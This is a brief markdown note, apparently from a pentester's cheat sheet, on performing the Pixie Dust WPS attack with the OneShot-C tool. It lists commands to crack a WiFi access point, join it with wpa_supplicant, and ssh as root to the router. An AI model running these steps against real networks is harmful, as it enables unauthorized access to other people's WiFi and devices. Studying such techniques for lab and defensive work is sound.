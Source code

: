 # Pixie Dust

## OneShot, perform WiFi attacks even if the WiFi interface is not on monitor mode

## Github repo: https://github.com/nikita-yfh/OneShot-C

### Usage:

# Pixie Dust Attack

#### 1) Compile the .c program as per the instructions in the repo, then transfer it to target machine.

#### 2) Run the program to perform WiFi attacks:

    ./oneshot -i wlan0 -K (Scan for the BSSID of the interface, then type a number to choose your target)

    wpa_passphrase AP_SSID 'WPA_PSK_PASSWORD' > psk (Put all necessary credentials in one file)

    wpa_supplicant -B -c psk -i wlan0

    ifconfig wlan0 192.168.1.5 netmask 255.255.255.0 (Assign IP to interface. You may assign any IP you want to the specific interface)

    ssh root@192.168.1.1 
